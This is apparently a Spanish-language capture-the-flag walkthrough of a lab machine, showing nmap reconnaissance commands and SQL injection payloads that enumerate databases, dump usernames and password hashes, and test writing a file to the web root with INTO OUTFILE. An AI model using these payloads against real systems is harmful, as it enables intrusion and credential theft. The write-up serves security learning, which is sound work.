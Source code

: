 ## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.

`union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Enumerar las columnas

`' union select group_concat(username,0x3a,userhash) from registration-- -` Obtener los valores de las columnas

BBDD:
`registration`
Tables:
`registration`
Columns:
`username` `userhash` `country` `regtime`
Valores:
Se nos muestran los valores de prueba que hemos generado nosotros anteriormente, y esos no nos valen

Validaremos si somos capacidades de depositar contenido en una ruta
`' union select "probando" into outfile "/var/www/html/prueba.txt"-- -` 
